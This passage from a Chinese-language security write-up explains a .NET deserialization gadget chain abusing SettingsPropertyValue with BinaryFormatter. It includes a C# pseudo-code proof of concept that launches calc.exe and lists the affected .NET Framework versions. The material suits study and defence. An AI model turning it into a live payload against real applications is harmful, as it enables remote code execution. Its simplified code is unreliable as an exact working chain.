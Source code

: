 2. **序列化与传递**
    - 使用 `BinaryFormatter` 或 `NetDataContractSerializer`，将对象树序列化为二进制数据。
    - 数据被传递到目标应用。

3. **反序列化触发链条**
    - 目标应用反序列化时，`SettingsPropertyValue` 的 `PropertyValue` 属性被自动访问。
    - 恶意 getter 被触发，执行任意代码。

---

### 17.4 伪代码示例

```csharp
// 恶意对象，getter 中执行命令
[Serializable]
public class EvilObject
{
    public object PropertyValue
    {
        get
        {
            System.Diagnostics.Process.Start("calc.exe");
            return null;
        }
    }
}

// 构造 SettingsPropertyValue，持有恶意对象
var spv = new SettingsPropertyValue(new SettingsProperty("evil"));
spv.PropertyValue = new EvilObject();

// 序列化 spv
var formatter = new BinaryFormatter();
formatter.Serialize(stream, spv);

// 反序列化时触发链条
formatter.Deserialize(stream);
```

---

### 17.5 触发点与关键代码

- **SettingsPropertyValue.PropertyValue**  
    反序列化时自动访问，攻击者可控。
- **恶意 getter**  
    在 getter 中执行任意代码。

---

### 17.6 影响范围

- 影响所有使用 `BinaryFormatter`、`NetDataContractSerializer` 反序列化且未做类型限制的 .NET Framework 应用，尤其是使用 `System.Configuration` 的场景。
- 主要影响 .NET Framework 2.0/3.5/4.x，.NET Core/5/6 默认不包含全部功能。
